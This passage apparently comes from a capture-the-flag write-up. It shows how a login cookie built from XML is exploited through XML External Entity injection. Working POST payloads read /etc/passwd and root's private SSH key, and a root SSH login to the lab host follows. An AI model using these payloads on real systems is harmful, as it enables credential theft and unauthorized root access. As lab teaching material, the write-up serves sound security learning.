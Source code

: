 Decoding the Base64 string:
```
echo 'PCEtLSBBUEkgVmVyc2lvbiAxLjAuM(...)' | base64 -d
```
```xml
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>anything</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

When checking the HTTP request with **Burpsuite**, the data that is sent contains the _username_ and _version_ parameter:
```
POST /login HTTP/1.1
(...)

username=%26admin%3b&version=InjectionTest
```

After sending the modified request and checking the new cookie, it is confirmed that we control the data in the XML structure and can exploit an **XML External Entity (XXE)** vulnerability:
```
echo 'PCEtLSBBUEkgVmVyc2lvbiBJbmpl(...)' | base64 -d
```
```xml
<!-- API Version InjectionTest -->
<root>
    <data>
        <username>&admin;</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Using a [payload from PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe) to retrieve the _/etc/passwd_ file:
```
POST /login HTTP/1.1
(...)

username=%26admin%3B&version=1.0.0--><!DOCTYPE root [<!ENTITY admin SYSTEM 'file:///etc/passwd'>]><!--
```

It displays the contents of the file, so it can be used to retrieve the SSH key of root:
```
username=%26admin%3B&version=1.0.0--><!DOCTYPE root [<!ENTITY admin SYSTEM 'file:///root/.ssh/id_rsa'>]><!--
```

After copying the contents into a file, it is possible to login via SSH as root!
```
ssh -i root.key root@10.10.10.243
```
